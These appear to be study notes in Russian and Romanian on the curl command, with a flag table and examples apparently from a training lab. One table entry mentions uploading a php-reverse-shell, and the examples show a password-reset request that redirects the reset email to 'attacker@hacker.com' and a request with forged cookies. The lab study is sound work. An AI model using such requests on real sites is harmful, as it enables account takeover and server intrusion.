 |              |                                                                                                                                                                                           |
| ------------ | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Флаги        | Описание                                                                                                                                                                                  |
| -#           | Отобразит индикатор выполнения, чтобы вы знали, насколько продвинулась загрузка. (или используйте флаг --silent для молчаливого обхода)                                                   |
| -o           | Сохраняет загруженный файл с именем, указанным после флага.                                                                                                                               |
| -О           | Сохраняет файл с именем, с которым он был сохранен на сервере.                                                                                                                            |
| -С -         | Этот флаг может возобновить прерванную загрузку без указания смещения.                                                                                                                    |
| --limit-rate | Ограничивает скорость загрузки/выгрузки до заданного диапазона (устройства в 100K, 100M, 100G)                                                                                            |
| -u           | Обеспечивает аутентификацию пользователя (Формат: -u пользователь:пароль)                                                                                                                 |
| -Т           | Помогает в загрузке файла на какой-нибудь сервер (в нашем случае php-reverse-shell)                                                                                                       |
| -х           | Если вам приходится просматривать страницу через ПРОКСИ. Вы можете указать прокси-сервер с помощью этого флага. (-x proxy.server.com -u user:password(Аутентификация для прокси-сервера)) |
| -I           | (Заглавные буквы i) Запрашивает заголовок, а не веб-страницу.                                                                                                                             |
| -A           | Вы можете указать агента пользователя для выполнения запроса к серверу                                                                                                                    |
| -L           | Указывает curl следовать за редиректами                                                                                                                                                   |
| -b           | Этот флаг позволяет указывать cookies при выполнении запроса curl (Cookie должен быть в формате "NAME1=VALUE1; ИМЯ2=ЗНАЧЕНИЕ2")                                                           |
| -d           | Этот флаг может быть использован для отправки данных на сервер (обычно используется для отправки данных формы).                                                                           |
| -Х           | Чтобы указать метод HTTP в URL-адресе. (GET,POST,TRACE,OPTIONS)                                                                                                                           |
### Exemple 
Pentru a primi `requiestul`:
```bash
curl http://MACHINE_IP -v
```
In felul dat vedem si raspunsul la cererea noastra.

```shell
curl 'http://10.10.122.39/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

```shell
curl 'http://10.10.122.39/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

```shell
curl -H "Cookie: logged_in=true; admin=false" http://10.10.122.39/cookie-test
```

More details:
- [curl в Linux с примерами - GeeksforGeeks](https://www.geeksforgeeks.org/curl-command-in-linux-with-examples/)
- [curl - Как пользоваться](https://curl.se/docs/manpage.html)
- [15 советов по использованию команды 'curl' в Linux (tecmint.com)](https://www.tecmint.com/linux-curl-command-examples/)

